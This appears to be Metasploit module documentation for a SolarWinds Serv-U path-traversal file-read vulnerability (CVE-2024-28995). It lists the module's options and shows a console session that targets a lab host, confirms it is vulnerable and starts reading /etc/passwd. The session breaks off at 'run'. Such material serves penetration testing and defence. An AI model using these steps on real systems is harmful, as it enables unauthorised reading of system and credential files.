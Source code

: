 ### STORE_LOOT
Whether the read file's contents should be stored as loot in the Metasploit database. If set to false, the files
content will be displayed in the console. (default: true).

### TARGETURI
The base URI path to the web application (default: /).

### TARGETFILE
The absolute path of a target file to read (default: /etc/passwd).

### PATH_TRAVERSAL_COUNT
The number of double dot (..) path segments needed to traverse to the root folder. For a default install of Serv-U
on both Linux and Windows, the value for this is 4. (default: 4).

## Scenarios

### A vulnerable Linux target

```
msf auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set RHOST 192.168.86.43
RHOST => 192.168.86.43
msf auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set RPORT 443
RPORT => 443
msf auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set STORE_LOOT false
STORE_LOOT => false
msf auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set TARGETFILE /etc/passwd
TARGETFILE => /etc/passwd
msf auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > show options

Module options (auxiliary/gather/solarwinds_servu_fileread_cve_2024_28995):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   PATH_TRAVERSAL_COUNT  4                yes       The number of double dot (..) path segments needed to traverse to the root folder.
   Proxies                                no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                192.168.86.43    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                 443              yes       The target port (TCP)
   SSL                   true             no        Negotiate SSL/TLS for outgoing connections
   STORE_LOOT            false            no        Store the target file as loot
   TARGETFILE            /etc/passwd      yes       The full path of a target file to read.
   TARGETURI             /                yes       The base URI path to the web application
   VHOST                                  no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > check
[+] 192.168.86.43:443 - The target is vulnerable. SolarWinds Serv-U version 15.4.2.126 (Linux 64-bit; Version: 6.5.0-15-generic)
msf auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > run
[*] Running module against 192.168.86.43

[*] Running automatic check ("set AutoCheck false" to disable)
```